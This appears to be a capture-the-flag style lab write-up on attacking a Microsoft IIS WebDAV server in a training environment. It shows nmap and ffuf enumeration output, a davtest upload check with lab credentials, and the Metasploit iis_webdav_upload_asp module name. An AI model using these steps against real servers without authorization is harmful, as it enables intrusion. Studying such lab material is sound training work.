


# Microsoft IIS with Metasploit (Upload Vulnerability)

Username: `bob`
Password: `password_123321`

> WebDAV is how a web server behaves, much like Google Drive or Dropbox did in their early days.

## Enumeration

```txt
─# nmap -sS -sV -T4 demo.ine.local
Starting Nmap 7.94SVN ( https://nmap.org ) at 2026-03-13 17:53 IST
Nmap scan report for demo.ine.local (10.0.31.11)
Host is up (0.0023s latency).
Not shown: 994 closed tcp ports (reset)
PORT     STATE SERVICE       VERSION
80/tcp   open  http          Microsoft IIS httpd 10.0
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp  open  microsoft-ds?
3306/tcp open  mysql         MySQL (unauthorized)
3389/tcp open  ms-wbt-server Microsoft Terminal Services
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 13.83 seconds
```

- Perform further enumeration to confirm the `WebDAV` vulnerability on this server.

```txt
nmap -sV --script http-enum -p 80 demo.ine.local
Starting Nmap 7.94SVN ( https://nmap.org ) at 2026-03-13 18:12 IST
Nmap scan report for demo.ine.local (10.0.31.11)
Host is up (0.0025s latency).

PORT   STATE SERVICE VERSION
80/tcp open  http    Microsoft IIS httpd 10.0
|_http-server-header: Microsoft-IIS/10.0
| http-enum:
|_  /webdav/: Potentially interesting folder (401 Unauthorized)
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 15.12 seconds
```

## Directory Fuzzing with ffuf

```
fuf -u http://demo.ine.local/FUZZ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt

        /'___\  /'___\           /'___\
       /\ \__/ /\ \__/  __  __  /\ \__/
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/
         \ \_\   \ \_\  \ \____/  \ \_\
          \/_/    \/_/   \/___/    \/_/

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://demo.ine.local/FUZZ
 :: Wordlist         : FUZZ: /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
________________________________________________

# directory-list-2.3-medium.txt [Status: 302, Size: 130, Words: 6, Lines: 4, Duration: 58ms]
#                       [Status: 302, Size: 130, Words: 6, Lines: 4, Duration: 67ms]
#                       [Status: 302, Size: 130, Words: 6, Lines: 4, Duration: 68ms]
# Copyright 2007 James Fisher [Status: 302, Size: 130, Words: 6, Lines: 4, Duration: 73ms]
                        [Status: 302, Size: 130, Words: 6, Lines: 4, Duration: 105ms]
# This work is licensed under the Creative Commons  [Status: 302, Size: 130, Words: 6, Lines: 4, Duration: 124ms]
# Attribution-Share Alike 3.0 License. To view a copy of this  [Status: 302, Size: 130, Words: 6, Lines: 4, Duration: 126ms]
# Suite 300, San Francisco, California, 94105, USA. [Status: 302, Size: 130, Words: 6, Lines: 4, Duration: 148ms]
# Priority ordered case sensative list, where entries were found  [Status: 302, Size: 130, Words: 6, Lines: 4, Duration: 175ms]
# license, visit http://creativecommons.org/licenses/by-sa/3.0/  [Status: 302, Size: 130, Words: 6, Lines: 4, Duration: 181ms]
# or send a letter to Creative Commons, 171 Second Street,  [Status: 302, Size: 130, Words: 6, Lines: 4, Duration: 189ms]
# on atleast 2 different hosts [Status: 302, Size: 130, Words: 6, Lines: 4, Duration: 214ms]
#                       [Status: 302, Size: 130, Words: 6, Lines: 4, Duration: 226ms]
#                       [Status: 302, Size: 130, Words: 6, Lines: 4, Duration: 231ms]
downloads               [Status: 301, Size: 155, Words: 9, Lines: 2, Duration: 47ms]
content                 [Status: 301, Size: 153, Words: 9, Lines: 2, Duration: 18ms]
resources               [Status: 301, Size: 155, Words: 9, Lines: 2, Duration: 16ms]
Downloads               [Status: 301, Size: 155, Words: 9, Lines: 2, Duration: 8ms]
Resources               [Status: 301, Size: 155, Words: 9, Lines: 2, Duration: 18ms]
Content                 [Status: 301, Size: 153, Words: 9, Lines: 2, Duration: 12ms]
configuration           [Status: 301, Size: 159, Words: 9, Lines: 2, Duration: 8ms]
App_Themes              [Status: 301, Size: 156, Words: 9, Lines: 2, Duration: 5ms]
webdav                  [Status: 401, Size: 1293, Words: 81, Lines: 30, Duration: 16ms]
Configuration           [Status: 301, Size: 159, Words: 9, Lines: 2, Duration: 7ms]
                        [Status: 302, Size: 130, Words: 6, Lines: 4, Duration: 30ms]
app_themes              [Status: 301, Size: 156, Words: 9, Lines: 2, Duration: 7ms]
WebDAV                  [Status: 401, Size: 1293, Words: 81, Lines: 30, Duration: 5ms]
:: Progress: [220560/220560] :: Job [1/1] :: 3076 req/sec :: Duration: [0:02:46] :: Errors: 160 ::

```

## Testing with DAVTest

- `davtest` is used to test WebDAV-enabled servers by attempting to upload executable test files to check for upload vulnerabilities.

```bash
davtest -url http://demo.ine.local/webdav -auth bob:password_123321
```



- The test results confirm a file upload vulnerability. We can proceed to exploit this using Metasploit.

## Exploitation with Metasploit

- Load the appropriate module in Metasploit:
  ```bash
  use exploit/windows/iis/iis_webdav_upload_asp
  ```



- After successful exploitation, the flag can be found in the root directory.
